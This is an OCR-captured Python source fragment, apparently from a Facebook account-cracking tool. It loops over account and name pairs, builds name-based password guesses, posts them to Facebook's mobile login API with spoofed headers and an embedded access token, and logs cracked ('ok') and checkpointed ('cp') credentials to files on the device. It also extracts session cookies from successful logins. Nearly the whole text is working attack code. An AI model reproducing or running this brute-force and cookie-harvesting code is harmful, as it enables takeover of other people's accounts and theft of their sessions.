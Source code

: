 


 
    def start2(user):
      global loop,accounts
      try:
        r = requests.session()
        user = user.strip()
        acc, name = user.split("|")
        first = name.rsplit(" ")[0]
        try:
            last = name.rsplit(" ")[1]
        except:
            last = first
        pers = str(int(loop)/int(len(accounts)) * 100)[:4]
        sys.stdout.write('\r\033[1;91m[\033[1;97mhxw-m2\033[1;91m]\033[1;97m {}-{} \033[1;91m[\033[1;97m{}\033[1;91m] \033[1;97mok : \033[1;92m{} \033[1;97mcp : \033[1;91m{}      \r'.format(str(loop), str(len(accounts)), pers , str(len(okacc)) ,str(len(cpacc))))
        sys.stdout.flush()
        for pword in totalpass:
            heads = none
            header = {"content-type": "application/x-www-form-accencoded","host": "graph.facebook.com","user-agent": heads,"x-fb-net-hni": "45204","x-fb-sim-hni": "45201","x-fb-connection-type": "unknown","x-tigon-is-retry": "false","x-fb-session-id": "nid=jiz+ynnbgbwc;pid=main;tid=132;nc=1;fc=0;bc=0;cid=d29d67d37eca387482a8a5b740f84f62","x-fb-device-group": "5120","x-fb-friendly-name": "viewerreactionsmutation","x-fb-request-analytics-tags": "graphservice","accept-encoding": "gzip, deflate","x-fb-http-engine": "liger","x-fb-client-ip": "true","x-fb-server-cluster": "true","x-fb-connection-token": "d29d67d37eca387482a8a5b740f84f62","connection": "keep-alive"}
            pword = pword.replace("first", first).replace("last", last)
            pword = pword.lower()
            data={"adid": str(uuid.uuid4()),"format": "json","device_id": str(uuid.uuid4()),"cpl": "true","family_device_id": str(uuid.uuid4()),"credentials_type": "device_based_login_password","error_detail_type": "button_with_disabled","source": "device_based_login","email":acc,"password":pword,"access_token":"350685531728|62f8ce9f74b12f84c123cc23437a4a32","generate_session_cookies":"1","meta_inf_fbmeta": "","advertiser_id": str(uuid.uuid4()),"currently_logged_in_userid": "0","locale": "en_us","client_country_code": "us","method": "auth.login","fb_api_req_friendly_name": "authenticate","fb_api_caller_class": "com.facebook.account.login.protocol.fb4aauthhandler","api_key": "882a8490361da98702bf97a021ddc14d"}
            response = r.post('https://b-graph.facebook.com/auth/login',data=data,headers=header,allow_redirects=false)
            if 'session_key' in response.text:
                okacc.append(acc)
                print('\r\033[1;92m[\033[1;97mhannan-ok\033[1;92m] \033[1;97m'+acc+' \033[1;92m•\033[1;97m '+pword+'  ')
                open('/sdcard/hannan-ok.txt','a').write(f'{acc} • {pword}\n')
                if 'y' in apps:
                	check(r,coki)
                if c=='y':
                 try:  
                  q = json.loads(response.text)
                  ckkk = ";".join(i["name"]+"="+i["value"] for i in q["session_cookies"])
                  ssbb = base64.b64encode(os.urandom(18)).decode().replace("=","").replace("+","_").replace("/","-")
                  cookies = f"sb={ssbb};{ckkk}"
                 except exception as e:print(str(e)+' | '+response.text)
                 print('\r\033[1;93m[\033[1;97mcookie\033[1;93m] \033[1;97m'+cookies)                
                 break
            elif 'checkpoint' in response.text:
                if cpok=='n':
                     pass
                else:
                     print('\r\033[1;91m[\033[1;97mhannan-cp\033[1;91m] \033[1;97m'+acc+' \033[1;91m•\033[1;97m '+pword)
                cpacc.append(acc)
                open('/sdcard/hannan-cp.txt','a').write(f'{acc} • {pword}\n')
                break